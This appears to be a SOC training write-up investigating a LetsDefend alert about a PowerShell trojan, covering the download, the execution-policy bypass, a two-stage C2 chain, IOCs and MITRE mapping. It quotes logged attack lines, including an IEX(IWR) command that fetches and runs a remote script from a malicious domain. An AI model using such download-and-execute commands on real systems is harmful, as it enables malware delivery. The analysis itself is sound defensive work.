





### <span style="color:lightblue">Objective</span>
Investigate alert SOC153 triggered by the execution of a suspicious PowerShell script on host `Tony` (`172.16.17.206`), determine whether the activity is malicious, reconstruct the attack chain, and classify the alert.


### <span style="color:lightblue">Alert Overview</span>
| Field | Value |
|---|---|
| EventID | 238 |
| Event Time | Mar 14, 2024, 05:23 PM |
| Rule | SOC153 — Suspicious Powershell Script Executed |
| Level | Security Analyst |
| Hostname | Tony |
| IP Address | 172.16.17.206 |
| File Name | payload_1.ps1 |
| File Path | C:\Users\LetsDefend\Downloads\payload_1.ps1 |
| File Hash | db8be06ba6d2d3595dd0c86654a48cfc4c0c5408fdd3f4e1eaf342ac7a2479d0 |
| Trigger Reason | Suspicious Powershell Script Executed |
| AV/EDR Action | Detected |

The alert fired at `2024-03-14 17:23` on host `Tony` with IP `172.16.17.206`. The triggered rule was **SOC153 — Suspicious PowerShell Script Executed**, classified as Malware / Medium severity. The file involved was `payload_1.ps1` located at:
```
C:\Users\LetsDefend\Downloads\payload_1.ps1
SHA256: db8be06ba6d2d3595dd0c86654a48cfc4c0c5408fdd3f4e1eaf342ac7a2479d0
```

The AV/EDR reported the file as **Detected** but did not block execution.


### <span style="color:lightblue">Initial Download</span>

Proxy logs confirmed that user `LetsDefend` on the same host downloaded the file via Chrome at `2024-03-14 17:22:25` from an Amazon S3 bucket:
```
Source IP:        172.16.17.206:22456
Destination IP:   3.5.130.147:443
URL:              https://files-ld.s3.us-east-2.amazonaws.com/payload_1.ps1
Process:          chrome.exe
Device Action:    Allowed
```

Approximately 60 seconds later, Sysmon Event ID 1 (Process Create) recorded PowerShell launching the script with an explicit execution policy bypass:
```
EventID:     1
Image:       C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
CommandLine: "powershell.exe" "-Command" "if((Get-ExecutionPolicy) -ne 'AllSigned')
             { Set-ExecutionPolicy -Scope Process Bypass };
             & 'C:\Users\LetsDefend\Downloads\payload_1.ps1\payload_1.ps1'"
Hash:        db8be06ba6d2d3595dd0c86654a48cfc4c0c5408fdd3f4e1eaf342ac7a2479d0
PID:         4315
```


### <span style="color:lightblue">payload_1.ps1</span>


Submitting the hash to VirusTotal returned **33/62** vendor detections. The file was identified internally as `agent3.ps1`. Key findings:

- **Threat label:** `trojan.powershell/boxter`
- **Threat categories:** trojan, downloader
- **Family labels:** powershell, boxter, azorult
- **Behavioral tags:** `detect-debug-environment`, `exe-pattern`, `url-pattern`, `long-sleeps`, `checks-network-adapters`

The presence of `detect-debug-environment` and `long-sleeps` tags indicates sandbox evasion logic. The `azorult` family label identifies this as a credential-stealing infostealer with downloader capabilities.


### <span style="color:lightblue">C2 Stage 1</span>

Sysmon Event ID 4104 (Script Block Logging) captured the payload's in-memory command at `2024-03-14 17:23`:
```powershell
EventID: 4104
Script Block Text: "C:\Windows\system32\cmd.exe" /c "powershell -command
  IEX(IWR -UseBasicParsing 'https://kionagranada.com/upload/sd2.ps1')"
Username:   LetsDefend
ProcessId:  6968
```

`payload_1.ps1` used `Invoke-WebRequest` to download `sd2.ps1` from `kionagranada.com` and immediately executed it in memory via `Invoke-Expression` — a fileless execution technique that leaves no file artifact on disk.

A Sysmon Event ID 22 (DNS Query) confirmed the resolution:
```
EventID:     22
QueryName:   kionagranada.com
QueryResult: 161.22.46.148
Process:     powershell.exe
UtcTime:     2024-03-14 17:23:46
```

`161.22.46.148` is the **C2 Stage 1** server hosting the second-stage script. VirusTotal relations for this IP showed a communicating file `sd4.ps1` (13/62 detections) and numerous ELF and executable files associated with the same infrastructure.




### <span style="color:lightblue">C2 Stage 2</span>

VirusTotal relations for the second C2 IP `91.236.116.163` revealed a broad threat infrastructure including communicating files with names such as `Chase_Bank_Statement_March.zip`, `Chase_Bank_Statement_March.lnk`, `WinFormGregorCatch.exe` (56/71), and `payload_1.js` (34/62) — all consistent with a large-scale phishing and infostealer operation using banking lure themes.



The file `2024-04-03-https___kionaonline.com_modules_bonslick_agent3.ps1.txt` (29/63) corroborates the `agent3.ps1` internal name identified in the VirusTotal sample, linking both C2 IPs to the same campaign infrastructure.


### <span style="color:lightblue">Summary</span>

The alert is a **True Positive**. User Tony downloaded `payload_1.ps1` (Azorult/Boxter trojan) from an attacker-controlled S3 URL via Chrome, bypassed PowerShell execution policy, and executed the script. The script fetched and ran a second-stage payload (`sd2.ps1`) in memory from `kionagranada.com` (`161.22.46.148`). A second C2 server at `91.236.116.163` was associated with the broader campaign infrastructure. The attack involved two-stage C2, fileless execution, and sandbox evasion.

**Recommended actions:** isolate host `172.16.17.206`, reset credentials for user `LetsDefend`/`Tony`, block `161.22.46.148`, `91.236.116.163`, and `kionagranada.com` at the firewall, and submit to Tier 2 for full memory forensics.


### <span style="color:lightblue">IOCs</span>

**Files**  
\- `C:\Users\LetsDefend\Downloads\payload_1.ps1` — `db8be06ba6d2d3595dd0c86654a48cfc4c0c5408fdd3f4e1eaf342ac7a2479d0`  

**Network**  
\- `https://files-ld.s3.us-east-2.amazonaws.com/payload_1.ps1` — initial download  
\- `kionagranada.com` / `161.22.46.148` — C2 Stage 1  
\- `https://kionagranada.com/upload/sd2.ps1` — second-stage payload  
\- `91.236.116.163` — C2 Stage 2  

### <span style="color:lightblue">MITRE ATT&CK</span>

| Technique | ID | Description |
|---|---|---|
| Phishing / Drive-by Download | T1566 / T1189 | payload_1.ps1 downloaded via Chrome |
| PowerShell | T1059.001 | Script executed with Bypass policy |
| Obfuscated Files or Information | T1027 | Fileless IEX(IWR) in-memory execution |
| Ingress Tool Transfer | T1105 | sd2.ps1 fetched from C2 |
| Command and Scripting Interpreter | T1059 | cmd.exe spawned by PowerShell |
| Application Layer Protocol: HTTPS | T1071.001 | C2 communication over HTTPS |
| Virtualization/Sandbox Evasion | T1497 | detect-debug-environment, long-sleeps |